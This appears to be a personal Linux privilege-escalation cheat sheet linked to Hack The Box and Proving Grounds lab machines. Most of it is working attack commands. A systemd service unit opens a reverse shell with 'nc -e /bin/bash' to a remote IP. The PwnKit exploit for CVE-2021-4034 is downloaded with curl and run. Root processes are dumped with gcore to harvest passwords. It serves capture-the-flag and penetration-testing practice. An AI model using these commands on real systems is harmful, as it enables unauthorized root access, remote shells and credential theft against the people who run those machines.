 ### systemctl
+ add service to get root. htb-jarvis
+ same to sudo reboot; 

```bash
echo "[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.78 9001'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target" > hack2.service

systemctl link /tmp/hack2.service
systemctl start hack2
```

### pkexec
+ [CVE-2021-4034 pwnkit](https://github.com/ly4k/PwnKit)
+ [cve-2021-4034](https://access.redhat.com/security/cve/cve-2021-4034)
+ [python exploit](https://github.com/Almorabea/pkexec-exploit)
+ [Technical Details](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command

# build
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

### gcore
+ dump process, get password. eg. ssh, password-store
+ sudo same to suid.
+ pelican

```bash
ps -ef | grep -E "root|password"
gcore -a pid

strings core.xxx

su root
```

### start-stop-daemon
+ pg-sorcerer
